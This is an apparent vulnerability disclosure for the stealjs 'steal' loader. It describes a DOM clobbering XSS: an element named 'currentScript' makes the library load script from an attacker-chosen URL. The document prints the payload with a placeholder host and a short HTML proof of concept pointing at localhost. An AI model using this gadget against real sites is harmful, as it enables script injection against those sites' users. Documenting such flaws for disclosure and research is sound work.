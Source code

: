 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None

### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!doctype html>
<html>
  <body>
    <image name="currentScript" src="http://localhost:8000/"></image>
    <script src="./node_modules/steal/steal.js" main></script>
  </body>
</html>
```
